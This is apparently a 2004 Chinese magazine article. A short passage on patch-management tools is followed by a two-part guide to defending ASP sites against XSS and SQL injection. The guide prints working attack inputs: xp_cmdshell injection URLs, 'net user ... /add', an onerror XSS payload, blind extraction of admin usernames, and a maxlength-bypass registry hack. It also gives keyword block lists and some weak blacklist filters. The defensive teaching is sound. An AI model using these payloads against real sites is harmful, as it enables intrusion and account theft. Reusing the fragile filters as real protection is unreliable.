| 入场券数量 | 若帮助桌面使用命令/问题跟踪系统，可记录与补丁安装有关的入场券数量。 |
| 名称（MSKB号码） | 许多补丁与 Microsoft 知识库文章相关，可通过对应 KB 号查询参考信息。 |
| 受影响的系统 | 可标注补丁影响的应用/系统范围，用于核查应安装补丁清单。 |
| 评价 | 可用高/中/低/N/A 标注优先级与安全性。 |
| 响应计划完成安装 | 可记录每个补丁安装计划及状态，跟踪进度。 |
| 完成的日期 | 记录安装完成日期。 |
| 添加到标准安装 | 标注是否纳入 Windows 标准安装镜像/基线。 |
| 替代 | 说明补丁是否被更新补丁替代及替代日期。 |

最新的升级和热修理可为服务器和工作站自动发现并提供配置信息；可自动为工作站和服务器配置补丁程序，用户可按机器与补丁组合选择部署时间，保存过去、现在和未来的跟踪报告及变更。

在获取补丁管理工具方面，用户可选择独立补丁工具（如 BigFix、PatchLink、St.Bernard Software、Shavlik、HFNetChkPro 等）或包含补丁更新组件的系统管理包（如 Ecora、IBM、LANDesk Software 等）。不同工具支持的系统与应用不同，需要评估兼容性与成本。

### 1. 微软的补丁管理工具

微软提供了 3 种途径修补服务器和桌面应用程序漏洞：通过 SMS 控制台分发升级包；通过 System Update Services 自动下载补丁；以及提供在线漏洞评估工具（Microsoft Baseline Security Analyzer），可用于识别微软产品中错误的安全配置问题，生成并存储个人 XML 安全报告。由于这些软件使用方法比较简单，本文不作详细说明。

### 2. Bigfix

该软件下载地址为 http://www3.skycn.com/soft/2728.html 。

Bigfix 是一款比较特别的软件。初次使用时，它会定时去网上搜索，同时它也会自动检查系统，如果 Bigfix 发现问题，它就会在你的任务栏上闪烁起来。如图 3 所示。


图3

打开 Bigfix，并根据订阅的类别，分门别类排列好相关的待安装补丁。点击选中的内容后，具体内容和解决办法会显示在下方的大窗口中，单击“Click here”按钮，Bigfix 会自动下载补丁、自动打补丁、自动修正错误等。

软件默认订阅了两个“补丁铺”，分别是“Bigfix 技术支持中心”和“补丁发布中心”。前者会发布和 Bigfix 软件本身有关的更新、技术支持和消息等，后者则是全神贯注地关心和系统有关的 Bug、补丁、更新等。当然，仅仅订阅这两个“补丁铺”是不够的。为了使用比较完整的补丁，单击“Subscribe”按钮，即可进入“补丁铺订阅中心”。可以看到，还有各个操作系统、Tucows、AutoDesk 和 BigFix Games 等。例如，在 Windows 2000 下，单击“Subscribe”，此时 Bigfix 会自动下载一个小小的 Fxm 文件，并在下载完毕后自动打开它。稍微等上几分钟，就可以看到 Windows 2000 补丁铺的图标出现在左边的订阅栏里。如图 4 所示。


图4

补丁铺订阅完毕，单击“Gather”按钮，Bigfix 会自动搜索相关的最新消息、补丁情况、软件更新等。更新时，会显示一个搜索条。搜索完毕，具体的补丁内容就会显示在大窗口内，可以根据主题、是否被阅读过、具体类别、收集日期等进行排序。对于不感兴趣的内容可以按“Del”键删除。也可以用鼠标右键点击它，将它标记为“已读(Mark as read)”、“未读(Mark as unread)”，或直接点击查看具体的信息“Fixlet info”。

### 3. HFNetChkPro

该软件下载地址为 http://www.shavlik.com/pProducts.aspx 。

这款软件可以读取 Microsoft 网站上的特定 XML 文件，该文件描述了当前可用的补丁程序（针对 Windows NT/2000/XP 等操作系统或 SQL Server 和 Exchange Server）。然后，HFNetChkPro 会对网络中的系统进行扫描，查出机器上已经安装过的补丁。软件安装界面如图 5 所示。


图5

这款软件可以读取 Microsoft 网站上的特定 XML 文件，该文件描述了当前可用的补丁程序（针对 Windows NT/2000/XP 等操作系统或 SQL Server 和 Exchange Server）。然后，HFNetChkPro 会对网络中的系统进行扫描，查出机器上已经安装过的补丁。主用户界面可以用几种不同的视图来查看当前的系统情况，你可以按操作系统、域或者 IP 地址范围来对网络中的系统进行分类查看，还可以看到它是否被扫描过。我们可以了解每一个补丁程序是否被安装到各个系统，还可以查看补丁程序的具体功能。在中心管理系统上，可以选择需要扫描的系统，获取它们的状态报告并为它们安装补丁程序。

### 4. Configuresoft

该软件参考地址为 http://www.configuresoft.com/product_ecm_overview.htm 。

Configuresoft 能够有效地完成报告、分析、标准化、执行、变化管理等工作。它首先从它所管理的每台机器上都要收集许多数据点，然后把这些数据存入 SQL 2000 数据库，其中的信息可以被利用来生成报告、进行分析、标准化、改变管理和强化管理能力。这些数据包括基本资产信息，比如制造商、BIOS 版本号、机器的类型（比如 Dell 的笔记本）。它还能收集机器上整个注册表的信息、它所运行的程序、所有的文件、所有的安全数据等。在 ECM6 的帮助下，IT 人员可以利用数据库里的信息生成数以千计的报告，而不会影响网络的运行。由于这个软件不提供试用版本，本文暂不作详细介绍。

通过以上补丁管理策略和补丁管理软件，我们就可以很方便地对整个网络或者单台电脑进行补丁管理，从而构造一个安全的系统。

## 脚本攻击防范

## 策略完全篇（上）

脚本小子：本期我们特别为大家准备了网络上常见的脚本攻击的防范技术，就是希望各大站长在自己网站上运行脚本程序的同时做好安全维护，让每个入侵者都没有办法在你的站点上捣乱！

难度等级：中  
前置知识：相关的脚本语言  
文／风清扬

近来，网络上的 SQL Injection 漏洞利用攻击、JS 脚本、HTML 脚本攻击似乎愈演愈烈。陆续地很多站点都被此类攻击所困扰，这样的攻击并非像主机漏洞攻击那样可以当即修复，来自于 Web 的攻击方式给我们在防范或者修复上都带来了很大的不便。一个站长最大的痛苦莫过于此。如何才能做到真正意义上的安全呢？第一，别把密码和你的生活联系起来；第二，Supermaster 的 PWD 最好只有你自己知道；第三，绝对要完善好你的网站程序。然而怎样才能完善，这将是我们此文的最终目的。

安全防护，如何做到安全防护？想要防护就要知道对方是如何进行攻击的。有很多文章都在写如何攻下某站点，其实攻击途径也不过以下几种。

得到了管理员的密码，也就意味着已经控制整个网站，虽然不一定能得到主机的权限，但也为这一步做了很大的铺垫。类似的 SQL Injection 攻击的方式方法很多，对不同的文件过滤不严密所采取的查询方式也不同。所以说，要做好一个完整的字符过滤程序，不下一番功夫是不可能的。

### 4. 远程注入攻击

如果某站点所谓的过滤只是在提交表格页上进行简单的 JS 过滤，对于一般用户来说，你大可不必防范；对于有预谋的攻击者来说，这样的过滤似乎根本没起作用。我们常说的 POST 攻击就是其中一例——通过远程提交非法的信息以达到攻击目的。

## 攻击途径

- 1. **简单的脚本攻击**  
  此类攻击应该属于无聊捣乱吧，比如 `javascript:alert()`、`</table>` 等等。由于程序上过滤得不严密，使攻击者得不到什么可用的资料，但可以进行捣乱。目前很多站点的免费服务，或者是自身站点的程序上就有过滤不严密的问题。

- 2. **危险的脚本攻击**  
  这类脚本攻击已经过渡到可以窃取管理员或者是其他用户信息的程度了。比如大家都知道的 cookies 窃取，以及利用脚本对客户端进行本地的写操作等。

- 3. **SQL Injection 漏洞攻击**  
  可以说，这个攻击方式是从动网论坛和 BBSXP 开始的。利用 SQL 特殊字符过滤的不严密，从而对数据库进行跨表查询的攻击。比如：

```text
http://127.0.0.1/forum/showuser.asp?id=999 and 1=1
http://127.0.0.1/forum/showuser.asp?id=999 and 1=2
http://127.0.0.1/forum/showuser.asp?id=999 and 0<(select count(*) from admin)
http://127.0.0.1/forum/showuser.asp?id=999'; declare @a nvarchar(255); set @a='xp_cmdshell''exec @a dir c:\''--&aid=9
```

## 防范手段

通过上面的攻击方法的介绍，我们大致了解了攻击者的攻击途径，下面我们就开始重点介绍如何有效地防范脚本攻击。还是让我们从最简单之处开始吧。

### 1. 防范脚本攻击

JS 脚本和 HTML 脚本攻击的防范其实很简单：`Server.HTMLEncode(Str)` 就行。为了便于过滤，我们只需要将 HTML 脚本和 JS 脚本中的几个关键字符过滤掉就可以了，具体代码如下所示：

```asp
以下是过滤函数

function CHK(fqyString)
  fqyString = replace(fqyString, "<", "&lt;")
  fqyString = replace(fqyString, ">", "&gt;")
  fqyString = replace(fqyString, "&", "&amp;")
  fqyString = Replace(fqyString, CHR(32), "&nbsp;")
  fqyString = Replace(fqyString, CHR(9), "&nbsp;")
  fqyString = Replace(fqyString, CHR(34), "&quot;")
  fqyString = Replace(fqyString, CHR(39), "&#39;")
  fqyString = Replace(fqyString, CHR(13), "")
  fqyString = Replace(fqyString, CHR(10) & CHR(10), "")
  fqyString = Replace(fqyString, CHR(10), "<BR>")
  CHK = fqyString
end function
%>
以下是应用实例
<%=CHK(Username)%>
Username=CHK(replace(request("username"),"'","''"))
```

使用 Include 把函数写在公用页面上，这样效果是最好的。另外值得我们注意的是，很多站点在用户注册，或者是用户资料修改的页面上也缺少脚本的过滤，或者是只在其中之一进行过滤，注册进入后修改资料仍然可以进行脚本攻击。对用户提交的数据进行检测和过滤，其具体代码如下：

```asp
以下是过滤函数
if instr(request("username"),"=")>0 or _
instr(request("username"),"%")>0 or _
instr(request("username"),chr(32))>0 or _
instr(request("username"),"?")>0 or _
instr(request("username"),"&")>0 or _
instr(request("username"),";")>0 or _
instr(request("username"),"|")>0 or _
instr(request("username"),"$")>0 or _
instr(request("username"),"#")>0 or _
instr(request("username"),chr(34))>0 or _
instr(request("username"),chr(9))>0 or _
instr(request("username"),"{")>0 or _
instr(request("username"),"}")>0 or _
instr(request("username"),">")>0 or _
instr(request("username"),"<")>0 then
 response.write "朋友，你的提交用户名含有非法字符，请更改，谢谢合作 <a href='javascript:window.history.go(-1);'>返回</a>"
 response.end
end if
```

为了提高工作效率，我们再将过滤内容程序化，这样对多个参数的过滤效率将有很大程度的提高，代码如下所示：

```asp
以下为程序主体
dim Bword(18)
Bword(0)="?"
Bword(1)="="
Bword(2)=">"
Bword(3)="<"
Bword(4)=""""
Bword(5)="'"
Bword(6)="|"
Bword(7)="&"
Bword(8)="%"
Bword(9)="$"
Bword(10)="#"
Bword(11)=";"
Bword(12)="|"
Bword(13)="("
...
Bword(14)=")"
Bword(15)="—"
Bword(16)=chr(9)
Bword(17)=chr(34)
Bword(18)=chr(32)
errc=false

以下是应用实例部分
for i=0 to ubound(Bword)
 if instr(QYcs,Bword(i))<>0 then
  errc=true
 end if
next

if errc then
 response.write "<script language='javascript'>"
 response.write "parent.alert('很抱歉你的操作违法了')"
 response.write "history.back()"
 response.write "</script>"
 response.end
end if
```

有了上面的过滤函数，你可以在任何需要过滤的地方应用过滤函数直接使用就可以了，这就使我们的修复工作大大地简化了。另外，我想在这里再次提醒一下，一些站点的 UBB 在进行小的表情图标转化时也会出现过滤问题，由于很隐蔽所以不容易发现：

```text
如 [img]img/0001.gif[/img]
我们标签对应文字进行修改：'img src='img/0001.gif' onerror=javascript:alert(0) alt='[/img]
```

不知道各位看懂没，前一个单引号用来中和程序提供的左引号，第二个单引号用来中和闭合的右引号，这样程序输出就为：

```html

```

如果图片不存在，那么将激活 onerror 标签执行脚本程序。对于已经过滤了单引号的站点，在这里用双引号一样可以完成；对于过滤了 javascript 字段的，只用 alert() 也完全可以。所以说，要过滤就要过滤完全，别给攻击者留下一些机会。

### 2. ASP木马

讲到这里，再提醒各位论坛站长一句，小心你们的文件上传！为什么论坛程序被攻破后主机也随之被攻击者占据？原因就在于 ASP 木马！一个绝对可恶的东西。病毒吗？非也。把个文件随便放到你论坛的程序中，你找去吧，不吐血才怪！如何才能防止 ASP 木马被上传到服务器呢？方法很简单，如果你的论坛支持文件上传，请设定好你要上传的文件格式。我不赞成使用可更改的文件格式，直接从程序上锁定，只有图像文件格式和压缩文件就完全可以。多给自己留点方便，也就多给攻击者留点方便。怎么判断格式？我这里收集了一个，也改出了一个，大家可以看一下：```vb
' 判断文件类型是否合格
Private Function CheckFileExt1(fileEXT)
  dim Forumupload
  Forumupload="gif,jpg,bmp,jpeg"
  Forumupload=split(Forumupload,",")
  for i=0 to ubound(Forumupload)
    if lcase(fileEXT)=lcase(trim(Forumupload(i))) then
      CheckFileExt=true
      exit Function
    else
      CheckFileExt=false
    end if
  next
End Function

' 验证文件内容的合法性
set MyFile=Server.CreateObject("Scripting.FileSystemObject")
set MyText=MyFile.OpenTextFile(sFile,1)
sTextAll=lcase(MyText.ReadAll):MyText.close
sStr="|8|getfolder|createfolder|deletefolder|..."
sStr=sStr & "|saveas|wscript.shell|script.encode|..."
```

```vb
sNoString=split(sStr,"|")
for i=1 to sNoString(0)
  if instr(sTextAll,sNoString(i))<>0 then
    sFile=UpPath & sFileSave
    fs.DeleteFile sFile
    Response.write "<center><br><big>...文件中含有与操作目录等有关的命令..."
    Response.end
  end if
next
```

把它们加到你的上传程序里做一次验证，那么你的上传程序安全性将会大大提高。

什么？你还不放心？拿出杀手锏，请你的虚拟主机服务商来帮忙吧。登录到服务器，将 `PROGID` 中的 `shell.application` 项和 `WScript.Shell` 相关项改名或删除……

好了，我们就先讲到这里，我们为大家准备了完善的防御 SQL 注入的方法，希望大家喜欢！

## 脚本攻防疑魂

### 契合完全篇（下）

脚本小子：2004 年第一期的《黑客防线》上刊登了本文的上半部分，非常多喜欢脚本的朋友看了此文后给我们发来了信件，说这样的文章非常好……

本期刊登此文的后一部分，重点在当前非常流行的 ASP 漏洞方面，绝对经典！

适合读者：脚本编写人员、脚本安全研究人员

前置知识：脚本编写知识

文／风清扬

### ASP 防范 SQL Injection 漏洞攻击

面对时下非常火热的 SQL Injection 的强大“攻势”，我们到底该过滤哪些？

- 常常用的危险字符有：
- `*`（某些数据库字段列封闭）
- `--`（某些数据库注释标志）
- `#`（某些数据库注释标志）
- `'`（可能导致程序出错）
- `\`（跨越目录）
- `;`（32 和 43836 Unicode 编码的特征字符）
- `$`（可能用于变量标注）
- `/*` 和 `*/` 等

> NULL：小心“另类”的危险，可能导致数据库或系统处理报错。利用报错构造 SQL Injection。`?`、`=`、`&` 如果存在二次参数传递，可能改写 QueryString。

1、从最一般的 SQL Injection 漏洞攻击来看：用户名和密码上的过滤问题，如提交：用户名为：`'or''='`，用户密码为：`'or''='`。

从程序出发，我们完全可以得出，数据库在执行以下操作：

```sql
Sql="SELECT * FROM Users WHERE Username='or''=''
and Password='or''='"
```

这样一来，SQL 服务器将返回 `Users` 表格中的所有记录，而 ASP 脚本将会因此而误认为攻击者的输入符合 `Users` 表格中的第一条记录，从而允许攻击者以该用户的名义登录网站。对此类注入的防范似乎简单得很，利用以下程序就可以实现。

```vb
strUsername = Replace(Request.Form("Username"), "'", "''")
strPassword = Replace(Request.Form("Password"), "'", "''")
```

2. 杜绝 SQL 注入式攻击的第一步就是采用各种安全手段监控来自 ASP Request 对象（Request.QueryString、Request.Form、Request.Cookies 和 Request.ServerVariables）的用户输入，以确保 SQL 指令的可靠性。具体的安全手段根据你的 DBMS 而异。

SQL 注入式攻击可能引起的危害取决于该网站的软件环境和配置。当 Web 服务器以操作员（dbo）身份访问数据库时，利用 SQL 注入式攻击就可能删除所有表格、创建新表格等等。当服务器以超级用户（sa）身份访问数据库时，利用 SQL 注入式攻击就可能控制整个 SQL 服务器；在某些配置下攻击者甚至可以自行创建用户账号以完全操纵数据库所在的 Windows 服务器。如下所示：

```text
http://127.0.0.1/forum/showuser.asp?id=999';declare @a sysname set @a='xp_'+'cmdshell'; exec @a 'dir c:\'--&id=9
http://127.0.0.1/forum/showuser.asp?id=999'; declare @a sysname set @a='xp'+'_cm'+'dshell'; exec @a 'dir c:\'--&id=9
```

甚至可以执行像 `net user fqy fqy /add` 这样的指令。当然，这就需要你当前的运行身份必须是 sa。对于一些整机使用的站点来说，防止通过 80 端口攻击而直接拿到整机管理权限非常重要。对 `xp_cmdshell` 的过滤就成为首要，很多站点程序是用 GET 或 GET 与 POST 混合提交数据的。对此我们给出一种防止 GET 进行 SQL 注入的程序：

```vb
fqys=request.ServerVariables("query_string")
dim nothis(18)
nothis(0)="net user"
nothis(1)="xp_cmdshell"
nothis(2)="/add"
nothis(3)="exec%20master.dbo.xp_cmdshell"
nothis(4)="net localgroup administrators"
nothis(5)="select"
nothis(6)="count"
nothis(7)="asc"
nothis(8)="char"
nothis(9)="mid"
nothis(10)="'"
nothis(11)="="
nothis(12)="||"
nothis(13)="insert"
nothis(14)="delete"
nothis(15)="drop"
nothis(16)="truncate"
nothis(17)="from"
nothis(18)="%"
```

```vb
errc=false
for i=0 to ubound(nothis)
  if instr(FQYS,nothis(i))<>0 then
    errc=true
  end if
next
if errc then
  response.write "<script language='javascript'>"
  response.write "parent.alert('很抱歉你正在试图攻击本服务器或者想取得本服务器最高管理权!将直接转向首页.')"
  response.write "self.location.href='default.asp';"
  response.write "</script>"
  response.end
end if
```

> 声明：以上的程序只是对 GET 方式提交的数据进行过滤，并不要盲目套用。

像其他一些来自 ASP Request 对象（Request.QueryString、Request.Form、Request.Cookies 和 Request.ServerVariables）的用户输入的攻击方法，大致都集中在脚本期望的输入变量是数字变量（ID）上。当然我们不能只看数字变量，比如：

```text
http://127.0.0.1/systembbs/showtopic.asp?tid=99&name=abc' and left(userpassword,1)='a
http://127.0.0.1/systembbs/addtopic.asp?tid=99&name=abc' and userpassword='d' or '='
```

另外，如何单一地防止类似这样的注入错误？

```text
http://127.0.0.1/systembbs/addtopic.asp?tid=99'; delete forum_forum;--&page=33
```

防范程序如下：

```vb
' addtopic.asp?action=add
' addtopic.asp?action=delete
Action1=trim(Request.QueryString())
if left(action1,7)<>"action=" then
  error(err01)
else
  action=Request.QueryString("action")
end if
select case action
  case "add"
    ...
  case "delete"
    ...
  case else
    error(err02)
end select
```

出现这样的攻击，使我们的站长们不得不又再次头痛。这里我可以给出大家一个最好解决的办法：一般来说，用户名长度字符数不会超过 15 个字符，大都为 14 字符。

## SCRIPT ATTACK DEFENCE（脚本攻击防范）

那么，我们可以从长度出发来进行过滤，如下所示：

```vb
Name=replace(name,"''","")
If len(name)>16 then
  Response.write "..."
  Response.end
End if
```

为什么我们这里过滤了单引号，怎么还要再次取一个长度限制呢？……继续回到我们的主题。脚本期望的输入变量是数字变量（ID），怎样进行注入防范？

- 1. 判断数字是否是整型

```vb
o_longID = CLng(Request("ID"))
```

- 2. 取字长（一般长度不会大于 8 位）

```vb
If len(ID)>8 then
  response.write "bedpost"
  response.end
end if
```

- 3. 再进行一次数据库查询验证（若不存在则报错/跳转）

```vb
sql="SELECT NAME FROM Category where ID='"&ID&"'"
set temp=conn.Execute(sql)
if temp.bof or temp.eof then
  response.Redirect("index.asp")
else
  cat_name=temp("name")
end if
set temp=nothing

sql="SELECT ID,T_ID,NAME FROM Category where ID='"&ID&"' ORDER BY id asc"
rs.open sql,conn,1,1
```

- 4. 常用的数据过滤脚本

```vb
id=replace(id,"''","")
if len(request("id"))>8 then
  response.write "<script language='javascript'>"
  response.write "parent.alert('...')"
  response.write "history.back()"
  response.write "</script>"
  response.end
else
  if request("id")<>"" then
    if IsNumeric(request("id"))=False then
      ...
    end if
  end if
end if
```

```vb
response.write "<script language='javascript'>"
response.write "parent.alert('错误的数据编写类型\n\n请返回校验')"
response.write "history.back()"
response.write "</script>"
response.end
end if
end if
end if
```

由于个人编程习惯，喜欢将所有数据检验程序全部保留到公共程序中，比如 conn.asp，只需写一次就可修复全站问题。

提一点关于攻击的问题：跑用户名/密码，常用如下：

```text
/show.asp?id=1' and 0<(select count(*) from admin where id=3 and left(username,1)='a')
```

逐个尝试较慢，可以取 ASCII 码范围来加速，不论字母数字汉字特殊字符都有对应 ASCII 码。

```text
/show.asp?id=1' and 0<(select count(*) from admin where id=3 and asc(right(left(username,3),1)) between 1 and 10000)
```

剩下的范围缩小即可（如 97 到 122），也可用 mid：asc(mid(username,2,1)) between 1 and 10000。如何更有效防止 SQL 注入，下面继续。

## 防范远程注入攻击

这类攻击以前较常见，如 POST 数据篡改、COOKIE 伪造。不要把 COOKIE 作为用户验证的唯一方式。

```vb
If trim(Request.Cookies("uname"))="fay" and Request.Cookies("upwd")="dfay#e3i5.com" then
  ...more...
End if
```

站长和程序员不要犯此类错误。涉及用户密码或登录时，最好使用 Session；若必须使用 Cookies，应增加额外校验信息。

SessionID 的随机值是 64 位的，要猜解它，不可能。比如下面的代码：

```vb
if not (rs.BOF or rs.EOF) then
  login="true"
  Session("username"&SessionID)=Username
  Session("password"&SessionID)=Password
  Response.Cookies("username")=Username
  Response.Cookies("Password")=Password
end if
```

下面我们来谈谈如何防范远程注入攻击。一般的攻击都是将单表提交文件拖到本地，将 `Form ACTION="chk.asp"` 指向你服务器中处理数据的文件即可。如果你全部的数据过滤都在单表页上，那么恭喜你，你将已经被脚本攻击了。

```asp
<%
Server_v1=Cstr(Request.ServerVariables("HTTP_REFERER"))
Server_v2=Cstr(Request.ServerVariables("SERVER_NAME"))
if mid(Server_v1,8,len(Server_v2))<>Server_v2 then
  response.write "<center><table border=1 cellpadding=20 bordercolor=black bgcolor=#EEEEEE width=450>"
  response.write "<tr><td style='font:9pt Verdana'>"
  response.write "你提交的路径有误，禁止从站点外部提交数据请不要乱改参数！"
  response.write "</td></tr></table></center>"
  response.end
end if
%>
```

个人感觉上面的代码过滤不是很好，有一些外部提交竟然能堂堂正正地进来，于是再写一个。这个过滤效果很好，建议使用：  
`if instr(request.ServerVariables("http_referer"),"http://"&request.ServerVariables("host"))<>1 then ... response.end`

本以为这样就万事大吉了，在表格页上加一些限制，比如 maxlength 等等，但天公就是那么不作美，你越怕什么他越来什么。别忘了，攻击者可以突破 SQL 注入攻击时输入框长度的限制，写一个 SOCKET 程序改变 HTTP_REFERER。我不会，但是网上发表了这样一篇文章：

```text
---- len.reg ----
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt\扩展(&E)]
@="C:\\Documents and Settings\\Administrator\\桌面\\len.htm"
"Contexts"=dword:00000004
```

```html
---- len.htm ----
<script language=vbs>
set srcevent = external.menuArguments.event
set doc=external.menuArguments.document
set ele=doc.elementFromPoint(srcevent.clientx, srcevent.clienty)
if ele.type="text" or ele.type="password" then
  ele.maxlength=200
  ele.size=200
end if
</script>
---- end ----
```

用法：先把 len.reg 导入注册表（注意文件路径），然后把 len.htm 拷到注册表中指定的地方。打开网页，光标放在要改变长度的输入框上点右键，会多一个叫扩展的选项，单击搞定！同样的，也就可以对付那些限制输入内容的脚本了。

怎么办？我们的限制被绕过了，所有的努力都白费了？不。让我们继续回到脚本字符的过滤吧。他们所进行的注入无非就是进行脚本攻击。我们把所有的精力全部用到 ACTION 以后的页面吧，在 chk.asp 页中，我们将非法的字符全部过滤掉，结果如何？我们又在前面虚晃一枪，叫他们去改注册表吧，当他们改完才会发现，它们所做的都是那么的徒劳。

## 小结

如何更好地达到防范 SQL Injection 的攻击？这里我个人推荐几个办法。第一，免费程序不要真的就免费用，既然你可以共享源码，那么攻击者一样可以分析代码。如果有能力的站长最好还是更改一些数据库表名、字段名，只修改关键的 admin、username 和 password 就可以了。另一个关键点在于管理员密码强度，至少 10 位数字字母组合。现在大多数站点程序都会使用 MD5 来加密用户密码，加上密码强度，站点安全性会大大提高。即使出现 SQL Injection 漏洞，攻击者也不可能马上拿下你的站点。

本文到此就算结束了，如果各位读者有什么更好的建议或者问题可以与我共同讨论学习。

> 脚本小子：近期修正了极限论坛 V6.0.0+ 的整套程序，发现 SQL Injection 好多处，脚本攻击 N 处，细节问题处理 N 处。我下载了极限论坛的所有版本都查看了一下，所有的版本都存在问题，包括最新版。请使用极限论坛的站长注意一下，及时修复论坛程序上的过滤 BUG；如果有什么问题可以和我联系。

脚本小子：脚本安全在2003年里被炒得沸沸扬扬，无数脚本入侵方法在网络上流传，脚本程序的漏洞也层出不穷。很多脚本程序编写者总是在第一时间内弥补漏洞，但终归是晚了一步，很多损失已经造成。那么，我们究竟如何来根除这样的弊端呢？让我们一起来看看——

- 难易程度：中
- 前置知识：ASP，SQL 注入基础知识，软件测试基本概念

## 细写安全的ASP代码

ASP 中数据库的安全是一个很严肃的问题，很多代码的编写者意识到了这类问题，并且小心翼翼地对他们认为有问题的地方做了补救。但常见的情况是，要么没有穷尽所有的可疑地点，要么这种补救逻辑上有误。对于一个耐心且嗅觉灵敏的攻击者来说，这种意义上的补救措施和没有任何补救措施没有本质上的区别。

下面罗列的是一些可能出现的问题：有些是常见易犯的错误，有些根本就是逻辑上有问题。看看你是不是也这样写过？对于攻击者而言，倒真要看这些东西，应该对寻找漏洞有点帮助。更为完整一点的检测方法，敬请期待我的“关于黑/白盒分析和自动化测试”文章。

“字符串已经很有效地做过处理了，以后使用没有什么问题。”这句话没有错，对字符串来说这样做也是很正确的，但是它扮演了一个不光彩的角色。试想一下，如果过滤后的字符串放进了数据库，而后续的语句又直接拿出来使用，这种对前面过滤的依赖性，是不是正确的呢？

也许较好的做法应该是，针对具体的情况来确定过滤的准则。

常见的输入变量有3种：数字、字符串和集合。对于数字型的输入变量，简单调用一下判断函数即可，见得到的代码中，凡是检查了这类变量的，几乎都正确。对于字符串型的来说，基本上在插入到生成的 SQL 语句时，前后都有单引号；如果仅从破坏注入条件来看，把单引号替换成两个单引号应该问题不大。同理，如果是一个字符串的集合，也可以简单地用这种方法。而如果是数字的集合，情况可能稍微麻烦一点，至少你得允许数字、逗号或许还有空格之类的符号在输入中正常出现。这样的过滤规则可能显得复杂，不过你可以借鉴一下 dvBBS 6.1 打过补丁后的版本。总的来说，对于已经发现的过滤漏洞而言，它们还是补得比较好的。

对于第二句话，至少现在不能说它是错的，我们留待后面解决。

> 脚本小子——关于作者提到的“黑/白盒分析和自动化测试”文章，在看了其中一篇的开头之后，小编我忍不住非常期待。如果读者朋友们也有可能看到，一定会明白我的感受的。为了解馋，我只能从这几篇文章，我们给他一个半拉访问。

### 令人疑惑的过滤方式

典型例子是不管不顾地对所有的输入变量都去掉单引号，或者是把单引号替换成合法的两个单引号，例如：

```asp
id = replace(request.querystring("id"),"'","")
str = replace(request("someinput"),"'","''")
```

现在很明了的是，第一个做法很有可能是错误的。因为引起 SQL Injection 的不总是单引号，再扩大一点，引起问题的不是任何单独的符号。这样的过滤，有些冤枉单引号了。正确地利用注入，重要的一点是闭合前面的一句 SQL 查询语句——往往是得先正确地闭合前面一个条件，因为我们可能会在同一句里引入新的条件。补救措施只要破坏注入条件应该就可以了，但是考虑到其复杂性（下面会说），最好还是较为完整地限制一下输入的字符种类。

第二个看起来是没有什么问题的，但潜在会带来一些隐患。这很容易给人造成的一个错觉是：我对输入的字符串已经很有效地做过处理了，以后使用没有什么问题。

### 获取的数据值得信赖吗

其实这样说范围显得有点大，一下子涉及到很多方面，一个例子一个例子地举来好。

首先是关于选择过滤数据的问题。一直以来，我们认为凡是用户输入的东西，都要经过适当的处理。没错，但实际上是否都真正做到呢？随便找个抓包的工具，比如 Ethereal，看看在你用 IE 提交表单或者是打开连接的时候，都提交了什么。或者，简单一些，打开 NETAnt 编辑一个任务，在协议标签中，看看那个“自定义提交者”和“用户代理”的选项。

我想你已经明白了，对方可以自己定制的东西不仅仅是 GET 或 POST 过来的数据；如果所有的用户都规规矩矩地用浏览器，确实不用防备这么严，如果对方不这么做……

老实说，在取服务端变量或 Cookie 的时候可要小心了，没有任何人能够保证你获得的数据是合法的。对于 Cookie 而言，很多程序都出过问题，所以以前强调得比较多。至于另外的，关注的人可能比较少一点，但你是否看过或者写过这样的代码：

```asp
sql="ShowHOT_COM_last_online_char" & ...
& Request.ServerVariables("REMOTE_HOST") & ...
& boardid & ... & Request.ServerVariables("HTTP_USER_AGENT") & ...
& Request.ServerVariables("HTTP_X_FORWARDED_FOR") & ...


```

Request.ServerVariables("HTTP_USER_AGENT") 就是你在 NETAnt 中看到的用户代理选项，也就是说你可以伪造；同样可以伪造的还有 Request.ServerVariables("HTTP_REFERER")，也就是你在 NETAnt 中看到的提交者选项等等。在做一些项目的时候，很有可能要将这一类的变量添加入数据库，这时候要千万小心，这个地方的忽略引起的后果和其他类型变量未过滤导致的后果是一样的。

在 Google 上搜索 Referer 和 Request.ServerVariables 两个关键字，还可以看到很多有问题的写法，或者去看看 5 月份左右的关于动网论坛入侵的文章，也许你的理解会更加深刻一点。

然后是一个隐藏得稍微深一点的问题——不知用户的直接输入要不要过滤？这就回到了我们前面留下的那个问题，即单引号换成两个单引号的潜在威胁。在第二次构造 SQL 语句的时候，倘若数据是从数据库里面直接取出来用的，多数情况下人们会认为前面已经处理过的东西看起来似乎并没有必要再处理，或者干脆就是没有意识到应该处理。这是极其错误的！

从两个方面来看，首先你入库的时候对提交数据中的单引号处理，仅仅是保证了单次 SQL 语句构造的正确性，并没有一劳永逸地解决问题。再说了，后面取出数据用的时候，对数据安全性检查的依赖并没有得到保证，因为这种依赖关系没有传递下来，而且依赖关系本身还不是可传的。

就 replace(request("someinput"),"'","''") 而言，它的不安定性在于这种过滤方式只是一种妥协，换句话说只是在有限的范围内掩盖了可能出现的问题，而没有永久性地处理掉。它还有一个讨厌的地方在于给人一种错觉，似乎是处理过的数据已经安全了，容易让后续的代码编写者产生虚幻的安全感。

这一类的问题，如果依然用动网论坛做例子，我建议看一下 6 月 8 号的漏洞文章。

还有就是过滤器的位置，这个掺杂了逻辑问题在内的复杂问题。我曾经非常惊奇地发现齐齐论坛对外散布的版本中一段让人觉得不可思议的问题代码，如果你比较感兴趣的话，翻翻 gallery.asp 就能看到一个特定的动作序列 [action=flash_view]，绕过了所有对 id 的检查。

其实说起来，这一类代码不太可能有太复杂的逻辑结构。对代码进行审查的时候，进行所有的分支覆盖是可以手工完成的，只要稍微想想就会发现对变量的检查是否能够有效地到达你的目的地——生成 SQL 语句的地方。

关于过滤器的位置，如果要深入下去，马上就会出来一些让人眼花缭乱的东西，中间的分析很麻烦而且很形式化。虽然确实有算法可以保证位置选取的正确性，但是我想这里还是给出一些结论性的东西吧。

过滤的位置，取决于两个方面：你获得变量的来源，以及你需要保证到的生成 SQL 语句的位置。前面一个，不论是来自于直接还是间接输入，先想想可能的输入字符；对于后面一个，你要保证无论程序运行情况怎样，经过了过滤语句的流程一定会经过你需要保证到的生成 SQL 语句的位置（保证其是有效过滤语句的后向必经节点）。如果你不很清楚流程的判断，我的建议是 if 中仅仅判断，if 嵌套间不要有多余的东西，过滤语句后紧接生成 SQL 语句。

